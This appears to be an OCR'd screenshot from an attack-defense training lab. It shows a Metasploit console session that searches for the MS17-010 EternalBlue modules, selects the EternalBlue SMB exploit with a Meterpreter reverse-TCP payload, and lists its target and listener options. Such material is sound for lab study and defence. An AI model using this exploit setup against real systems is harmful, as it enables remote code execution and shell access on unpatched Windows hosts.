 ```
root@attackdefense:~# msfconsole -q
msf6 > search eternalblue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target m
                                             achines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machi
                                             nes.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):                                                                                                                                      
                                                                                                                                                                                            
   Name      Current Setting  Required  Description                                                                                                                                         
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.21.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```